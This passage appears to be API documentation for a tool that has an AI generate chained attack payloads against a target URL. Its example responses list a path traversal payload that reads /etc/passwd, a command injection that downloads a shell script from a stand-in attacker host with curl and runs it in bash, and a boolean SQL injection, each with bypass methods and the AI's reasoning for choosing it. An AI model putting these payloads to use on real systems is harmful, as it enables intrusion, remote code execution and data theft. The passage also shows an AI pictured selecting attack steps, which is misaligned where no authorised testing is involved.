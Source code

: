 ```json
            "risk_level": "High",
            "mitigation": "Use parameterized queries and input validation",
            "ai_reasoning": "Union-based technique chosen for API context to extract data efficiently"
        }
    ],
    "total_payloads": 3,
    "context_optimized": true
}
```

### Generate Chain Payloads

**Endpoint**: `POST /ai-payloads/chain`

**Description**: Generate payloads for vulnerability chains

**Request Body**:
```json
{
    "target_url": "https://example.com/upload.php",
    "vulnerability_chain": ["lfi", "rce", "sqli"]
}
```

**Response**:
```json
{
    "success": true,
    "target_url": "https://example.com/upload.php",
    "vulnerability_chain": ["lfi", "rce", "sqli"],
    "chain_payloads": {
        "lfi": [
            {
                "payload": "../../../etc/passwd",
                "description": "Path traversal for file inclusion",
                "technique": "Directory Traversal",
                "success_probability": 0.8,
                "bypass_methods": ["encoding"],
                "verification_steps": ["Check for file contents", "Verify path traversal"],
                "risk_level": "High",
                "mitigation": "Validate file paths and restrict access",
                "ai_reasoning": "Standard path traversal chosen as first step in chain"
            }
        ],
        "rce": [
            {
                "payload": "| bash -c 'curl http://attacker.com/shell.sh | bash'",
                "description": "Command injection for remote code execution",
                "technique": "Command Injection",
                "success_probability": 0.6,
                "bypass_methods": ["encoding", "whitespace"],
                "verification_steps": ["Check for command execution", "Verify shell access"],
                "risk_level": "Critical",
                "mitigation": "Use proper input validation and command whitelisting",
                "ai_reasoning": "Command injection chosen as second step to gain shell access"
            }
        ],
        "sqli": [
            {
                "payload": "' OR 1=1--",
                "description": "SQL injection for data extraction",
                "technique": "Boolean-based SQL Injection",
                "success_probability": 0.7,
                "bypass_methods": ["encoding"],
```